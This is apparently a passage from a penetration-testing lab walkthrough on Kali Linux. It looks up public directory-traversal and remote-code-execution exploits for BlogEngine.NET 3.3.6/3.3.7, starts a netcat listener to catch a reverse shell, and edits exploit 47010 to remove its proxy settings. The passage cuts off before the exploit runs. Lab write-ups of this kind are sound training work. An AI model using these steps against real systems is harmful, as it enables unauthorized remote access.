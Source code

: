 ```console
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                         | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution         | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                    | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution    | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                 | aspx/webapps/47014.py
------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Exploits `46353`, `47010` and `47011` are RCEs
- `46353` doesn't seem to work, the ascx file didn't run after uploading it
- `47010` and `47011` are similar exploits by the same author, let's try `47010`

# 3. Getting a Shell

Reading the exploit description, this exploit does not just provide a web shell for RCE, it connects back to the attacker listener for a reverse shell

The exploit is a python script configured to use 127.0.0.1:8080 as proxy (likely using burp suite)

If there are no proxy used in the attack, edit/remove the following:

```console
⋮
    proxies = {
            "http": "127.0.0.1:8080",
            "https": "127.0.0.1:8080"
              }
⋮
    resp = session.send(prep, verify=False, proxies=proxies)
⋮
```

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Run the exploit:

```console
┌──(root㉿kali)-[~]
└─# searchsploit -m 47010
  Exploit: BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47010
     Path: /usr/share/exploitdb/exploits/aspx/webapps/47010.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /root/47010.py

┌──(root㉿kali)-[~]
└─# sed -i '/proxies = {/,+3d' 47010.py

┌──(root㉿kali)-[~]
└─# sed -i 's/, proxies=proxies//' 47010.py

┌──(root㉿kali)-[~]
```